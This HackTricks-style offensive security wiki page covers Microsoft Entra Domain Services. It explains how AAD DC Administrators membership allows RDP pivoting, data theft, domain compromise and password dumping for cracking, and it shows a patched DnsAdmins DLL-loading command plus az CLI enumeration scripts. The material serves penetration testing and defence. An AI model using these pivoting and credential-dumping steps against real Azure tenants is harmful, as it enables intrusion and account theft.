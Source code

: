 # Az - Microsoft Entra Domain Services

{{#include ../../../banners/hacktricks-training.md}}

## Domain Services

Microsoft Entra Domain Services allows to deploy an Active Directory in Azure without needing to manage Domain Controllers (actually you don't even have access to them).

Its main goal is to allow you to run legacy applications in the cloud that can't use modern authentication methods, or where you don't want directory lookups to always go back to an on-premises AD DS environment.

Note that in order to synchronize the users generated in Entra ID (and not synchronized from other active directories) to the AD domain service you need to **change the password of the user** to a new one so it can be synchronized with the new AD. Actually, the user isn't synchronized from Microsoft Entra ID to Domain Services until the password is changed.

> [!WARNING]
> Even if you are creating a new active directory domain you won't be able to completely managed it (unless without exploiting some misconfigurations), which means that by default for example you cannot create users in the AD directly. You create them by **synchronizing users from Entra ID.** You can indicate to synchronize all users (even those synced from other on-premise ADs), only cloud users (users created in Entra ID), or even **filter them more**.

> [!NOTE]
> In general, due to the lack of flexibity on the configuration of the new domain and the fact that ADs are usually already on-premise, this is not the main integration between Entra ID and AD, but still interesting to know how to compromise it.

### Pivoting

Members of the generated **`AAD DC Administrators`** group are granted local admin permissions on VMs that are domain-joined to the managed domain (but not in the domain controllers) because they are added into the local administrators group. Members of this group can also use **Remote Desktop to connect remotely to domain-joined VMs**, and are also members of the groups:

- **`Denied RODC Password Replication Group`**: This is a group that specifies users and groups whose passwords cannot be cached on RODCs (Read-Only Domain Controllers).
- **`Group Policy Creators Owners`**: This group allows members to create Group Policies in the domain. However, its members can't apply group policies to users or group or edit existing GPOs, so it's not that interesting in this environment.
- **`DnsAdmins`**: This group allows to manage the DNS settings and was abused in the past to [escalate privileges and compromise the domain](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges.html?highlight=dnsadmin#dnsadmins), however after testing the attack in this environment it was checked that the vulnerability is patched:

```text
dnscmd TDW52Y80ZE26M1K.azure.training.hacktricks.xyz /config /serverlevelplugindll \\10.1.0.6\c$\Windows\Temp\adduser.dll

DNS Server failed to reset registry property.
    Status = 5 (0x00000005)
Command failed:  ERROR_ACCESS_DENIED     5    0x5
```

Note that to grant these permissions, inside the AD the group **`AAD DC Administrators`** group is made a member of the previous groups, and also the GPO **`AADDC Computers GPO`** is adding as Local Administrators all the members of the domain group **`AAD DC Administrators`**.

Pivoting from Entra ID to an AD created with Domain Services is straightforward, just add a user into the group **`AAD DC Administrators`**, access via RDP to any/all the machines in the domain and you will be able to steal data and also **compromise the domain.**

However, pivoting from the domain to Entra ID is not as easy as nothing from the domain is being synchronized into Entra ID. However, always checn the metadata to all the VMs joined as their assigned managed identities might have interesting permissions. Also **dump all the users passwords from the domain** and try to crack them to then login into Entra ID / Azure.

> [!NOTE]
> Note that in the past other vulnerabilities in this managed AD were found that allowed to compromise the DCs, [like this one](https://www.secureworks.com/research/azure-active-directory-domain-services-escalation-of-privilege?utm_source=chatgpt.com). An attacker compromising the DC could very easily maintain persistence without the Azure admins noticing or even being able to remove it.

### Enumeration

```bash
# Get configured domain services domains (you can add more subs to check in more subscriptions)
az rest --method post \
  --url "https://management.azure.com/providers/Microsoft.ResourceGraph/resources?api-version=2021-03-01" \
  --body '{
    "subscriptions": [
      "0ce1297c-9153-425d-3229-f51093614377"
    ],
    "query": "resources | where type == \"microsoft.aad/domainservices\"",
    "options": {
      "$top": 16,
      "$skip": 0,
      "$skipToken": ""
    }
  }'

# Get domain configuration
az rest --url "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/entra-domain-services/providers/Microsoft.AAD/DomainServices/<domain-name>?api-version=2022-12-01&healthdata=true"
## e.g.
az rest --url "https://management.azure.com/subscriptions/0ce1297c-9153-425d-3229-f51093614377/resourceGroups/entra-domain-services/providers/Microsoft.AAD/DomainServices/azure.training.hacktricks.xyz?api-version=2022-12-01&healthdata=true"

# Based on the VNet assigned to the domain services, you can enumerate the VMs in the domain

subscription_id="0ce1297c-9153-425d-3229-f51093614377"
vnet_name="aadds-vnet"

# Retrieve all VMs in the subscription
vm_list=$(az vm list --subscription "$subscription_id" --query "[].{Name:name, ResourceGroup:resourceGroup}" --output tsv)

# Iterate through each VM to check their VNet connection
echo "VMs connected to VNet '$vnet_name':"
while IFS=$'\t' read -r vm_name resource_group; do
  nic_ids=$(az vm show --subscription "$subscription_id" --name "$vm_name" --resource-group "$resource_group" --query "networkProfile.networkInterfaces[].id" --output tsv)
  
  for nic_id in $nic_ids; do
    subnet_id=$(az network nic show --ids "$nic_id" --query "ipConfigurations[0].subnet.id" --output tsv)
    
    if [[ $subnet_id == *"virtualNetworks/$vnet_name"* ]]; then
      echo "VM Name: $vm_name, Resource Group: $resource_group"
    fi
  done
done <<< "$vm_list"
```

{{#include ../../../banners/hacktricks-training.md}}